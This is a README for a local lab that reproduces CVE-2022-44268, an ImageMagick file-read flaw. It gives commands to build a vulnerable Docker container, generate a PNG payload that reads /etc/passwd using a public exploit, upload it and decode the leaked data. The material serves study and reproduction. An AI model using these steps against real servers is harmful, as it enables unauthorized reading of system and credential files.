 ## How to use

### 1. Clone the project 
`git clone git@github.com:AltSolution/CVE.git`

### 2. Build docker image with vulnerable version of ImageMagic (7.1.0-33 in our example)
```
cd CVE/CVE-2022-44268/
docker build -t cve-2022-44268 .
docker run -p 80:80 -d cve-2022-44268
```


### 3. Generate payload 

```
mkdir ~/cve-payload
cd mkdir ~/cve-payload
git clone https://github.com/voidz0r/CVE-2022-44268.git
apt install cargo
cargo run "/etc/passwd"
```


### 3. Make exploitation

1. Upload payload to http://127.0.0.1

2. Download result image to local folder

3. Extract useful metadata

`identify -verbose output.png`

4. Copy output of profile field to https://gchq.github.io/CyberChef/

5. Use "FromHex" and get result and get clear data.

### Links
1. [ImageMagic official site](https://imagemagick.org/index.php)
2. [Original report](https://www.metabaseq.com/imagemagick-zero-days/)
3. [Exploit DB](https://www.exploit-db.com/exploits/51261)
4. [Exploit for CVE-2022-44268 at GitHub](https://github.com/voidz0r/CVE-2022-44268)
5. [CVE Details about CVE-2022-44268](https://www.cvedetails.com/cve/CVE-2022-44268/)
6. [Snyc about CVE-2022-44268](https://security.snyk.io/vuln/SNYK-COCOAPODS-IMAGEMAGICK-3313085)
7. [Official patch of CVE-2022-44268](https://github.com/ImageMagick/ImageMagick6/commit/3c5188b41902a909e163492fb0c)

